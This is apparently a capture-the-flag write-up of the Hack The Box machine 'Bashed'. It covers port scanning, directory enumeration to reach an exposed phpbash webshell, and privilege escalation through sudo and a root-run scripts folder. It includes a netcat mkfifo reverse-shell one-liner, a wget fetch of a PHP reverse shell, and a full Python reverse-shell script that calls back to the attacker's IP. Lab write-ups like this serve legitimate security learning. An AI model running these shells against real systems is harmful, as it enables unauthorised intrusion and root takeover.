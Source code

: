 ```yaml
---
title: "Bashed -- hack the box"
author: Neal
tags: [安全, hack the box, walkthrough, linux]
categories: [htb]
date: "2019-04-04" 
---
```


[![AgdMvj.md.png](https://s2.ax1x.com/2019/04/03/AgdMvj.md.png)](https://imgchr.com/i/AgdMvj)

## Introduction

Target: 10.10.10.68 (OS: Linux)

Kali linux: 10.10.16.44

## Information Enumeration

Firstly, detect the open ports:

```    
# Nmap 7.70 scan initiated Wed Apr  3 20:48:43 2019 as: nmap -sT -p- --min-rate 10000 -oA openports 10.10.10.68
Warning: 10.10.10.68 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.68
Host is up (0.31s latency).
Not shown: 39680 closed ports, 25854 filtered ports
PORT   STATE SERVICE
80/tcp open  http
```

Only port 80 is open, it may be an easy box. And the truth is that it is really an easy box.

Then, detect the services of the port 80, it may be a kind of http service.

```
# Nmap 7.70 scan initiated Wed Apr  3 20:55:27 2019 as: nmap -sC -sV -p 80 -oA services 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.35s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Nothing special. Then access the http service and find more.

## Exploit

### Http

Access to `http://10.10.10.68`, and it seems to be a simple blog which talks about `phpbash`.

![AgfJCd.png](https://s2.ax1x.com/2019/04/04/AgfJCd.png)

`phpbash` seems to be a webshell tool. And there is a github repository [phpbash](https://github.com/Arrexel/phpbash) introduces the tool. The introduction of the repo is to drop the file to target and access it by `http://ip/uploads/phpbash.php`. Try to access `http://10.10.10.68/uploads/phpbash.php`. But the file seems not to be here.

Utilize the dirbuster to enumerate the directories.

![AgfTPJ.png](https://s2.ax1x.com/2019/04/04/AgfTPJ.png)

Wow. Find it and open the file `phpbash.php`. Here is the webshell. I have tried to reverse shell by `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.44 1234 >/tmp/f`. But the shell cannot be returned. Whatever, I can obtain the user.txt.

![AghFMt.png](https://s2.ax1x.com/2019/04/04/AghFMt.png)

It is convenient to get the reverse shell. So I try to upload a php shell to the target machine. The detailed php script can be found [here](https://github.com/neal1991/htb/blob/master/Bashed/php-reverse-shell.php). And I server the php script by `python -m SimpleHTTPServer 80`. Then download the php script from the target machine. To ensure the script can be written to the target machine. Select a path can be written, for example: `/tmp`.

[![AghBsx.png](https://s2.ax1x.com/2019/04/04/AghBsx.png)](https://imgchr.com/i/AghBsx)

`wget http://10.10.16.44/php-reverse-shell.php`

Then in the kali, set the `nc` listen to port 1234:

`nc -lvnp 1234`

Execute the php script in the target machine `php php-reverse-shell.php`. OK. We obtain the reverse shell.

[![AghhQI.png](https://s2.ax1x.com/2019/04/04/AghhQI.png)](https://imgchr.com/i/AghhQI)

## Privilege escalation

Obtain the user permission is quite easy, and it is not difficult to obtain the root permission. Utilize `sudo -l` to see the permissions of the user. Something interesting found. We can switch to `scriptmanager` user without password.

![Ag4cn0.png](https://s2.ax1x.com/2019/04/04/Ag4cn0.png)

```
su -u scrriptmanager bash -i
```

Try to enumerate the files. And I find an interesting folder inside `/scripts`. There are two files `test.py` and `test.txt`. Try to display the content of `test.py`.

[![AghxO0.png](https://s2.ax1x.com/2019/04/04/AghxO0.png)](https://imgchr.com/i/AghxO0)

The python script is quite straightforward. It just writes `testing 123!` to the file `test.txt`. And if we see the attributes of `test.txt`, the modified time of the file changes each minute. And the file is owned by root. It seems that `root` will execute the python scripts in `/scripts` folder each minute. So utilize a python script to reverse the root shell(according to the information above, the python version of the target machine is 2.7):

```python 
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.16.44",4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

Set the kali listen to port 4444. Download the python script in the target machine and execute. Now, root shell is obtained.

![AgICRJ.png](https://s2.ax1x.com/2019/04/04/AgICRJ.png)

[![AgIks1.png](https://s2.ax1x.com/2019/04/04/AgIks1.png)](https://imgchr.com/i/AgIks1)




